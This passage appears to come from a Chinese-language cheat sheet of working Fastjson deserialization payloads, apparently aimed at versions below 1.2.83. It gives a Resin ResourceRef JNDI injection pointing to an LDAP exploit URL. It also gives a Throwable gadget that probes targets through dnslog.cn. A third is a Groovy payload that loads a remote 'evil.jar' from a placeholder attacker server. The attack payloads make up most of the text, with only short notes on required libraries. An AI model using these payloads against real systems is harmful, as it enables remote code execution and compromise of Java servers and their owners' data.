 2. `AutoCloseable` 绕过 (JNDI注入 - Resin)
    
    需要`caucho`（Resin服务器）相关库
    
    payload:
    
    ```java
    {
        "@type": "com.caucho.config.types.ResourceRef",
        "lookupName": "ldap://localhost:1389/Exploit",
        "value": {
            "$ref": "$.value"
        }
    }
    ```
    

## Fastjson < 1.2.83 (无需`autoType`)

1. `Throwable` Gadget 信息探测
    
    payload:
    
    ```java
    [
        {
            "@type": "java.lang.Exception",
            "@type": "com.alibaba.fastjson.JSONException",
            "message": {
                "@type": "java.net.InetSocketAddress"
                {
                    "address":,
                    "val": "dnslog.cn"
                }
            }
        }
    ]
    ```
    
2. `Groovy` 远程类加载 (需开启`autoType`)
    
    需要`groovy`库
    
    payload:
    
    ```java
    {
        "@type": "org.codehaus.groovy.control.ProcessingUnit",
        "@type": "org.codehaus.groovy.tools.javac.JavaStubCompilationUnit",
        "config": {
            "@type": "org.codehaus.groovy.control.CompilerConfiguration",
            "classpathList": [
                "http://your-http-server/evil.jar"
            ]
        },
        "gcl": null,
        "destDir": "/tmp"
    }
    ```
    

参考：

[https://zone.huoxian.cn/d/1201-fastjsonlog4j2jndi](https://zone.huoxian.cn/d/1201-fastjsonlog4j2jndi)

[https://github.com/safe6Sec/Fastjson?tab=readme-ov-file](https://github.com/safe6Sec/Fastjson?tab=readme-ov-file)
